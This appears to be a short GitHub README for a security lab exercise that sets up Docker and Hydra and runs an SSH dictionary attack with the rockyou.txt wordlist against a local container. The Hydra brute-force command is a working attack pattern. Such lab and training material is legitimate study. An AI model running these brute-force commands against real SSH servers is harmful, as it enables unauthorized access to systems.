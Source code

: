 ### Attack is the best defense


## Dictionary attack

# Security Testing Setup README

This README provides instructions for setting up Docker and Hydra for security testing purposes. Please ensure that you use these tools responsibly and ethically, adhering to applicable laws and regulations.

### Step 1: Install Docker

```bash
sudo apt install docker.io
```
### Step 2: Install Hydra

```bash
sudo  apt install hydra
```
### Step 3: Run Docker Container
```bash
# Replace 'sylvainkalache/264-1' with the desired Docker image
docker run -p 2222:22 -d -ti sylvainkalache/264–1
```
### Step 4: Download rockyou.txt
```bash
# Navigate to the directory containing 'rockyou.txt'
gzip rockyou.txt
```
### Step 5: Run Another Docker Container
```bash
# Replace 'sylvainkalache/264-1' with the desired Docker image
sudo docker run -p 3333:22 -d -ti sylvainkalache/264-1
```
### Step 6: Use Hydra for Brute-Force Attack
```bash
# Replace 'rockyou.txt' with the appropriate wordlist
# Replace 'sylvain' with the target username
# Replace '127.0.0.1:3333' with the target SSH server address and port
# Adjust the '-t' option for the desired number of parallel threads
sudo hydra -l sylvain -P rockyou.txt ssh://127.0.0.1:3333 -t 4
```

![alt text](image-4.png)

## Note: Ensure ethical and legal use of security testing tools. Unauthorized access attempts are illegal and may have severe consequences.




